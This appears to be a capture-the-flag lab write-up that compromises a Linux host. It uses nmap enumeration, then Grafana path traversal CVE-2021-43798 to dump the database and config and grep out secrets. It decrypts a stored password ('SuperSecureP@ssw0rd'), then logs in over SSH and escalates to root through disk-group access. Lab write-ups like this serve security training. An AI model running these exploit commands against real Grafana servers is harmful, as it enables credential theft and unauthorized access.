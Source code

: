 #Pwned! 
```
192.168.239.181
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.239.181 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDH6PH1/ST7TUJ4Mp/l4c7G+TM07YbX7YIsnHzq1TRpvtiBh8MQuFkL1SWW9+za+h6ZraqoZ0ewwkH+0la436t9Q+2H/Nh4CntJOrRbpLJKg4hChjgCHd5KiLCOKHhXPs/FA3mm0Zkzw1tVJLPR6RTbIkkbQiV2Zk3u8oamV5srWIJeYUY5O2XXmTnKENfrPXeHup1+3wBOkTO4Mu17wBSw6yvXyj+lleKjQ6Hnje7KozW5q4U6ijd3LmvHE34UHq/qUbCUbiwY06N2Mj0NQ
iZqWW8z48eTzGsuh6u1SfGIDnCCq3sWm37Y5LIUvqAFyIEJZVsC/UyrJDPBE+YIODNbN2QLD9JeBr8P4n1rkMaXbsHGywFtutdSrBZwYuRuB2W0GjIEWD/J7lxKIJ9UxRq0UxWWkZ8s3SNqUq2enfPwQt399nigtUerccskdyUD0oRKqVnhZCjEYfX3qOnlAqejr3Lpm8nA31pp6lrKNAmQEjdSO8Jxk04OR2JBxcfVNfs=
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI0EdIHR7NOReMM0G7C8zxbLgwB3ump+nb2D3Pe3tXqp/6jNJ/GbU2e4Ab44njMKHJbm/PzrtYzojMjGDuBlQCg=
|   256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDCc0saExmeDXtqm5FS+D5RnDke8aJEvFq3DJIr0KZML
3000/tcp open  ppp?    syn-ack ttl 61
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1                                                                       
|     Location: /login                                                                  
|     Pragma: no-cache                                                                  
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax                                                                  
|     X-Content-Type-Options: nosniff                                                   
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Thu, 03 Oct 2024 08:05:52 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request                        
|   GetRequest:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Thu, 03 Oct 2024 08:05:21 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Thu, 03 Oct 2024 08:05:26 GMT
|_    Content-Length: 0
9090/tcp open  http    syn-ack ttl 61 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)                      
| http-methods:
|_  Supported Methods: GET OPTIONS
| http-title: Prometheus Time Series Collection and Processing Server
```
## HTTP

Grafana exploit 2 methods

method 1:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241003103007.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241003103153.png?raw=true)
Method 2:
googling: https://github.com/taythebot/CVE-2021-43798

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241003102948.png?raw=true)

continue method 2 with more exploits showed in the gitghub
dumping database and greping passwords
```
go run exploit.go -target http://192.168.239.181:3000 -dump-database -output grafana.db | grep -a -i -E '*password*'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241003105412.png?raw=true)
```
3prometheusPrometheusserverhttp://localhost:9090sysadmin{}2022-02-04 09:19:592022-02-04 09:19:59{"basicAuthPassword":"anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w=="}HkdQ8Ganz
```


```
go run exploit.go -target http://192.168.239.181:3000 -dump-config -output defaults.ini | grep -i -E '*password*'
```
We will search for the secret key in the config file
```
go run exploit.go -target http://192.168.239.181:3000 -dump-config -output defaults.ini | grep -i -E '*secret*'
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241003110146.png?raw=true)
```
SW2YcwTIb9zpOOhoPsMm
```
https://github.com/Sic4rio/Grafana-Decryptor-for-CVE-2021-43798
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241003112420.png?raw=true)
```
SuperSecureP@ssw0rd
```


# PrivEsc

## Manual
```
ssh sysadmin@192.168.239.181
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241003114101.png?raw=true)


we are part of the disk group
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241003115711.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241003115650.png?raw=true)

```
ssh root@192.168.239.181 -i id_rsa
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241003120046.png?raw=true)

## Automated

### Peass
### Mimikatz


